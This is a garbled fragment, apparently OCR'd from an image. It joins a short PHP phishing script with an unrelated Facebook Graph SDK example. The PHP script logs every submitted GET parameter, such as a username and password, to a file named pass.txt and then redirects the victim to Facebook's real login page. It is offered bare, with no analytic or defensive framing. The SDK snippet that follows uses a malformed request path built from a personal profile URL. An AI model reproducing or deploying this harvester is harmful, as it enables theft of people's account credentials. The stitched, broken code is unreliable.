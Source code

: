 &amp;lt;?php header('Location: http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&amp;gt; $value) { fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&amp;gt;
try {
  // Returns a `FacebookFacebookResponse` object
  $response = $fb->get(
    '/https://www.facebook.com/dinda.diiaclallu',
    '{access-token}'
  );
} catch(FacebookExceptionsFacebookResponseException $e) {
  echo 'Graph returned an error: ' . $e->getMessage();
  exit;
} catch(FacebookExceptionsFacebookSDKException $e) {
  echo 'Facebook SDK returned an error: ' . $e->getMessage();
  exit;
}
$graphNode = $response->getGraphNode();
